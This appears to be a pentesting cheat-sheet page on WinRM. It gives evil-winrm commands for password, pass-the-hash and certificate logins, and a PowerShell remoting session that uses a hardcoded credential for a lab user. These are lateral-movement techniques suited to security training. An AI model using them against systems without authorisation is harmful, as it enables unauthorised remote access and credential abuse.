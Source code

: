 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# WinRM (5985,5986)

## Authentication

{% tabs %}
{% tab title="Password-based" %}
```bash
evil-winrm -i <ip> -u <user> -p <pass>
```
{% endtab %}

{% tab title="Pass-the-Hash" %}
```bash
evil-winrm -i <ip> -u <user> -H <hash>
```
{% endtab %}

{% tab title="Certificate & Key" %}
```bash
# -S -> SSL
evil-winrm -i 10.10.11.152 -S -k <key> -c <crt>
```
{% endtab %}
{% endtabs %}

## PowerShell Remoting

**PowerShell Remoting** by default uses **WinRM** for Cmdlets such as `Enter-PSSession`. Therefore, a user needs to be in the local group `Windows Management Users` to be a valid user for these Cmdlets. However, instead of WinRM, SSH can also be used for PowerShell remoting.

> _Creating a PowerShell remoting session via WinRM in a bind shell can cause unexpected behavior. Opt for `evil-winrm` instead._

{% code overflow="wrap" %}
```powershell
> $password = ConvertTo-SecureString "qwertqwertqwert123!!" -AsPlainText -Force

> $cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)

> Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred
[CLIENTWK220]: PS C:\Users\daveadmin\Documents> whoami
whoami
clientwk220\daveadmin
```
{% endcode %}
